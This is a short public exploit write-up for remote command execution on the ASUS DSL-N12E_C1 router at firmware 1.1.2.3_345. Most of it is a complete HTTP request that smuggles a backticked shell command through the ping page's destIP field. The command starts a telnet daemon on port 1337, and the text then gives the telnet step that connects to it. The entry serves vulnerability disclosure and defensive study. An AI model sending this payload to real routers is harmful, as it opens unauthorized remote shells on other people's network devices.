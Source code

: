 Exploit Title: ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution<br>
Date: 2018-08-02<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.asus.com/<br>
Software Link: https://www.asus.com/Networking/DSLN12E_C1/HelpDesk_BIOS/<br>
Version: 1.1.2.3_345<br>
Tested on: 1.1.2.3_345<br>
<br>
GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60utelnetd+-p+1337%60&pingCNT=5 HTTP/1.1<br>
Host: www.target.com<br>
Connection: keep-alive<br>
Pragma: no-cache<br>
Cache-Control: no-cache<br>
Upgrade-Insecure-Requests: 1<br>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8<br>
Referer: http://www.target.com/Main_Analysis_Content.asp<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-US,en;q=0.9<br>
<br>
To connect<br>
1. telnet www.target.com 1337<br>
